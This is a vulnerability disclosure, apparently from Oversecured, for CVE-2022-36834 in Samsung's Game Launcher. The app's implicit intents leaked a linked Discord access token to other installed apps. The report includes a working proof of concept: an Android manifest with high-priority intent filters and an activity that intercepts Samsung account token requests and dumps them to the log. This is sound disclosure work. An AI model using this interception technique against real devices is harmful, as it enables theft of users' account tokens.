

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Game Launcher</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.game.gamehome</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.06</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36834">CVE-2022-36834</a> (SVE-2022-0860)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1050</td>
    </tr>
</table>

# Description

Oversecured found the use of implicit intents:


One use disclosed the access token of an attached Discord account to any third-party apps installed on the same device. This code was triggered when the user logged into their profile and clicked on the attached Discord account.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.mobileservice.action.ACTION_WEBVIEW_WITH_PASSWORD_EXTERNAL" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.msc.action.samsungaccount.REQUEST_ACCESSTOKEN" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `InterceptActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    DumpUtils.dump(getIntent(), getClassLoader());
    finish();
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
